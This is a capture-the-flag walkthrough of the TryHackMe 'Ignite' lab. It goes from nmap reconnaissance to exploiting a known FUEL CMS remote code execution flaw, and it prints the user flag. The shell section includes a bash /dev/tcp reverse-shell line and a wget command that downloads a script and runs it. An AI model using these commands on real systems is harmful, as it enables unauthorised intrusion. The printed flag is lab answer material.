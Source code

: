 # Ignite

<div align="left">

<figure><img src="../.gitbook/assets/676cb3273c613c9ba00688162efc0979.png" alt="" width="128"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Ignite](https://tryhackme.com/room/ignite)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.166.221`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

```bash
su
echo "10.10.166.221 ignite.thm" >> /etc/hosts

mkdir thm/ignite.thm  
cd thm/ignite.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 ignite.thm
PING ignite.thm (10.10.166.221) 56(84) bytes of data.
64 bytes from ignite.thm (10.10.166.221): icmp_seq=1 ttl=63 time=61.5 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=2 ttl=63 time=62.8 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=3 ttl=63 time=63.7 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

#### 2.1 - Find open ports on the machine

```bash
nmap --open -n -Pn -vvv -T4 ignite.thm
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-02 11:12 EDT
Initiating SYN Stealth Scan at 11:12
Scanning ignite.thm (10.10.166.221) [1000 ports]
Discovered open port 80/tcp on 10.10.166.221
Completed SYN Stealth Scan at 11:12, 0.99s elapsed (1000 total ports)
Nmap scan report for ignite.thm (10.10.166.221)
Host is up, received user-set (0.068s latency).
Scanned at 2023-07-02 11:12:22 EDT for 1s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.004KB)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

```bash
nmap -p80 -sCV -T4 ignite.thm -oN port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

It looks like there are only one open port on the machine: HTTP.

#### Task 3 - What is the user flag? 

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-19-30.png" alt=""><figcaption><p>http://ignite.thm:80</p></figcaption></figure>

We can search exploit with searchsploit:

```bash
searchsploit fuel cms 1.4 
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                | php/webapps/48778.txt
------------------------------------------------------------------------------------------------ ---------------------------------
```

Very good, there're many exploits for this CMS.

Exploring page we found a good info:

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-23-40 (1).png" alt=""><figcaption></figcaption></figure>

To access the FUEL admin, go to:\
[http://ignite.thm/fuel](http://ignite.thm/fuel)\
User name: **admin**\
Password: **admin** (you can and should change this password and admin user information after logging in).

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-25-17 (1).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-26-30.png" alt=""><figcaption></figcaption></figure>

Now, we can try to exploit using a RCE exploit, first we download script from searchsploit db:

```bash
searchsploit -m 50477.py                             
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
cp: overwrite '/home/kali/50477.py'? 
Copied to: /home/kali/50477.py
```

After this, we can launch exploit:

```bash
python 50477.py -u http://ignite.thm
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 19-39-11.png" alt=""><figcaption></figcaption></figure>

</div>

We need to do a reverse shell, we start to:

Retrieve our ip address:

```bash
ip -br -c a
```

and create a shell file with nano:

```bash
nano shell.sh
```

Insert this line for a bash reverse shell:

```bash
/bin/bash -i >& /dev/tcp/10.0.2.15/3333 0>&1
```

Setup a Python web server and a `nc` listener on 2 different tabs:

1st tab:

```bash
python -m http.server
```

2nd tab:

```bash
nc -nvlp 3333
```

Now, we can return in the exploited Fuel CMS tab, and do this commands:

```bash
wget http://10.0.2.15:8000/shell.sh -O shell.sh
bash shell.sh
```

Reverse shell received in the `nc` terminal:

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

`6470e394cbf6dab6a91682cc8585059b`

</details>

#### Task 4 - What is the root flag? 

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
